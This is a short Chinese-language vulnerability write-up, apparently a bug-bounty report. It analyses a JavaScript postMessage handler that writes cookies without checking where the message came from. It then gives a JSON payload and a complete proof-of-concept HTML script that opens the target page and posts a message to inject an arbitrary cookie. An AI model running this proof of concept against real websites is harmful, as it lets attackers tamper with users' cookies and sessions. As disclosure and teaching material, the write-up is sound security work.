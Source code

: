```
function h_message(event) 
{
          var data = null;
          try { data = JSON.parse(event.data); } catch(e) { return;}
          if (data.msgType !== "write" && data.namespace !== ns) {
            return;
          }
          setCookie(data.cookieName, data.cookieVal,parseInt(data.expiresDays, 10), data.secureOnly);        
} 
```

让我们了解一下这个函数的目的是什么？

*   传入的消息应该包含 json 对象。
*   Json 对象应该包含属性`msgType`并且必须等于`write`
*   另一个属性`namespace`应该与位置散列`"ns"`中存在的属性相同，两者都在用户的控制之下。
*   其中一个条件必须满足，而不是两个都满足，因为开发人员使用了负数和运算符，顺便说一下，这不是一个严重的问题
*   如果是这样，验证将为假，将不会到达 return 语句，并且将执行对包含其他 json 属性作为参数的另一个函数的调用`setCookie()`。

这确实是易受攻击的，没有对消息来源的验证，因此任何网站都可以发送消息并将恶意值传递给`setCookie`函数。

根据上面的代码，我构建了以下 json:

```
{"msgType":"write","namespace":"a","cookieName":"injectedt","cookieVal":"hacked","expiresDays":10,"secureOnly":false}
```

并且目标网址会是`/sync.html#{"ns":"a","wOrigin":"*"}`

完整的 poc 文件将包含:

```
<script>
       var tar='http://onga.com/sync.html#{"ns":"a","wOrigin":"*"}';
       var pay={"msgType":"write","namespace":"a","cookieName":"injectedt","cookieVal":"hacked","expiresDays":10,"secureOnly":false};   
       var c= window.open(tar,"child");
       c.postMessage(pay,"*");
</script>
```

将文件保存为 html 并打开它，cookie 被成功注入，我能够在易受攻击的网站上注入任意 cookie。

![](img/a4bb516d2405883abfe1cfb70b76be5f.png)
